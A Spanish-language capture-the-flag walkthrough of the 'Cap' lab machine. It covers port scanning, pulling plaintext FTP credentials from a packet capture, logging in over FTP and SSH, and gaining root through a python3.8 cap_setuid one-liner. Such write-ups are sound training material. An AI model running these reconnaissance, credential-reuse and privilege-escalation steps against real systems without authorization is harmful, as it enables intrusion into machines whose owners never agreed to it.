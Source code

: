 # Cap 

## Reconocimiento inicial
Realizamos un escaneo de todos los puertos para comprobar cuáles estan abiertos y lo exportamos al fichero `allports` 

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.245 -oG allports
```

```shell
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Vamos a realizar un escaneo más exaustivo de los siguiente puertos encontrados:


```shell
nmap -sCV -p21,22,80 10.10.10.245 -oN targeted
```

Se puede comprobar que no encontramos nada interesante o vulnerable.

```shell
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Con el siguiente comando voy a comprobar que nos encontramos en la página web.

```shell
whatweb http://10.10.10.245                   
http://10.10.10.245 [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[gunicorn], IP[10.10.10.245], JQuery[2.2.4], Modernizr[2.8.3.min], Script, Title[Security Dashboard], X-UA-Compatible[ie=edge]
```
Voy a realizar un pequeño fuzzing y comprobar si exiten algunos ficheros interesantes.

```shell
nmap --script http-enum -p80 10.10.10.245
```

## Revisamos la pag web

Se puede ver que cuando intentamos acceder al recurso `http://10.10.10.245/data/0` obtenemos un fichero que se puede analizar con la herramienta `Wireshark`

Encontramos los siguientes datos relevantes:
![alt text](Imagenes/Cap.png)
```
User:nathan
Passwd:Buck3tH4TF0RM3!
```

## Acceso ftp:
Probamos esas credenciales en el servicio `ftp` y accedemos al servicio 
con el comando `get user.txt` obtenemos la primera flag.

```shell
ftp nathan@10.10.10.245
```

```shell
ftp> ls
229 Entering Extended Passive Mode (|||11864|)
150 Here comes the directory listing.
-r--------    1 1001     1001           33 Sep 22 10:28 user.txt
226 Directory send OK.
ftp> get user.txt
```

## Acceso ssh

Con estas credenciales intentamos acceder al servicio ssh y comprobar si podemos acceder.

```shell
ssh nathan@10.10.10.245
```

## Escalada de privilegios

Comprobamos que recursos podemos ejecutar como root usamos el siguiente comando:
```shell
sudo -l
```
Sin embargo no obtenemos nada.
```shell
nathan@cap:~$ sudo -l
[sudo] password for nathan: 
Sorry, user nathan may not run sudo on cap
```
Comprobamos los ficheros que tenemos para explotar los permisos de SUID.
```shell
find / -perm -4000 -user root 2>/dev/null | xargs ls -l
```
```shell
-rwsr-xr-x 1 root root             43088 Sep 16  2020 /snap/core18/2066/bin/mount
-rwsr-xr-x 1 root root             64424 Jun 28  2019 /snap/core18/2066/bin/ping
-rwsr-xr-x 1 root root             44664 Mar 22  2019 /snap/core18/2066/bin/su
-rwsr-xr-x 1 root root             26696 Sep 16  2020 /snap/core18/2066/bin/umount
-rwsr-xr-x 1 root root             76496 Mar 22  2019 /snap/core18/2066/usr/bin/chfn
-rwsr-xr-x 1 root root             44528 Mar 22  2019 /snap/core18/2066/usr/bin/chsh
-rwsr-xr-x 1 root root             75824 Mar 22  2019 /snap/core18/2066/usr/bin/gpasswd
-rwsr-xr-x 1 root root             40344 Mar 22  2019 /snap/core18/2066/usr/bin/newgrp
-rwsr-xr-x 1 root root             59640 Mar 22  2019 /snap/core18/2066/usr/bin/passwd
-rwsr-xr-x 1 root root            149080 Jan 19  2021 /snap/core18/2066/usr/bin/sudo
-rwsr-xr-- 1 root systemd-resolve  42992 Jun 11  2020 /snap/core18/2066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root            436552 Mar  4  2019 /snap/core18/2066/usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root             43088 Sep 16  2020 /snap/core18/2074/bin/mount
-rwsr-xr-x 1 root root             64424 Jun 28  2019 /snap/core18/2074/bin/ping
-rwsr-xr-x 1 root root             44664 Mar 22  2019 /snap/core18/2074/bin/su
-rwsr-xr-x 1 root root             26696 Sep 16  2020 /snap/core18/2074/bin/umount
-rwsr-xr-x 1 root root             76496 Mar 22  2019 /snap/core18/2074/usr/bin/chfn
-rwsr-xr-x 1 root root             44528 Mar 22  2019 /snap/core18/2074/usr/bin/chsh
-rwsr-xr-x 1 root root             75824 Mar 22  2019 /snap/core18/2074/usr/bin/gpasswd
-rwsr-xr-x 1 root root             40344 Mar 22  2019 /snap/core18/2074/usr/bin/newgrp
-rwsr-xr-x 1 root root             59640 Mar 22  2019 /snap/core18/2074/usr/bin/passwd
-rwsr-xr-x 1 root root            149080 Jan 19  2021 /snap/core18/2074/usr/bin/sudo
-rwsr-xr-- 1 root systemd-resolve  42992 Jun 11  2020 /snap/core18/2074/usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root            436552 Mar  4  2019 /snap/core18/2074/usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root            111080 Apr 24  2021 /snap/snapd/11841/usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root            111080 Jun 15  2021 /snap/snapd/12398/usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root             85064 May 28  2020 /usr/bin/chfn
-rwsr-xr-x 1 root root             53040 May 28  2020 /usr/bin/chsh
-rwsr-xr-x 1 root root             39144 Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root             88464 May 28  2020 /usr/bin/gpasswd
-rwsr-xr-x 1 root root             55528 Jul 21  2020 /usr/bin/mount
-rwsr-xr-x 1 root root             44784 May 28  2020 /usr/bin/newgrp
-rwsr-xr-x 1 root root             68208 May 28  2020 /usr/bin/passwd
-rwsr-xr-x 1 root root             31032 Aug 16  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root             67816 Jul 21  2020 /usr/bin/su
-rwsr-xr-x 1 root root            166056 Jan 19  2021 /usr/bin/sudo
-rwsr-xr-x 1 root root             39144 Jul 21  2020 /usr/bin/umount
-rwsr-xr-- 1 root messagebus       51344 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root             14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root            473576 Mar  9  2021 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root             22840 Aug 16  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root            130152 Feb  2  2021 /usr/lib/snapd/snap-confine
```

No aparece nada intersante...

Por último comprobamos las `capabilities` con el siguiente comando:

```shell
getcap -r / 2>/dev/null
```

```shell
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

El más intersante es la de `python3.8` que cambiando la capability `cap_setuid` podemos ser root para ellos lo comprobamos con el siguiente comando:

```shell
python3.8 -c 'import os;os.setuid(0);os.system("whoami")'
```
y vemos como nos devuelve `root` 

Por lo tanto vamos a cambiar esta capability

```shell
python3.8 -c 'import os;os.setuid(0);os.system("bash")'
```

Obtenemos una shell de bash con los máximos privilegios y podemos acceder a `root.txt` 